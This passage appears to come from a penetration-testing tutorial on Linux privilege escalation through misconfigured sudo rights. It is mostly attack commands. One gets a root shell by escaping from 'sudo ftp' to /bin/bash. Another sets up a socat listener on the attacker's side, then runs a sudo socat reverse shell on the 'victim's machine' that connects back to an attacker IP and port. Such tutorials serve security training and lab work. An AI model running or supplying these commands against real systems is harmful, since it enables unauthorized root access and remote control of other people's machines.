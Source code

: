 ![](https://i1.wp.com/3.bp.blogspot.com/-22D-TwyJWNQ/W3BOh6zBgfI/AAAAAAAAZsE/gw_YjVSig0kUa4xnzV_yGo2fqHJpGmkSgCLcBGAs/s1600/1.png?w=687)  

### **Spawn Shell Using FTP**

Now let’s try to get root access through FTP with the help of following commands:  

sudo ftp ! /bin/bash whoami or ! /bin/sh id whoami

1

2

3

4

5

6

7

sudo ftp

!  /bin/bash

whoami

or

!  /bin/sh

id

whoami

![](https://i0.wp.com/2.bp.blogspot.com/-5vW-UNCSNfc/W3BOhk_4VFI/AAAAAAAAZr8/uslfJKdfJTUr372x6TUJcmLeCwC3CvPQgCLcBGAs/s1600/2.png?w=687)  

### **Spawn Shell Using Socat**

Now let’s try to get root access through socat with the help of following commands. Execute below command on the attacker’s terminal in order to enable listener for reverse connection.  

socat file:\`tty\`,raw,echo=0 tcp-listen:1234

1

socat file:\`tty\`,raw,echo\=0  tcp\-listen:1234

Then run the following command on victim’s machine and you will get root access on your attacker machine.  

sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234

1

sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234

![](https://i1.wp.com/3.bp.blogspot.com/-XmeRwflSsa0/W3BOic6vYDI/AAAAAAAAZsI/RBCsUYCUSIsvOiZKHFgTf7RGNhWenFXUgCLcBGAs/s1600/3.png?w=687)  
![](https://i2.wp.com/1.bp.blogspot.com/-n0edo3JPYHo/W3BOiyL2eiI/AAAAAAAAZsM/cmDdirECHVQarLdRvIH-TuGPCgHVpPVdQCLcBGAs/s1600/4.png?w=687)  

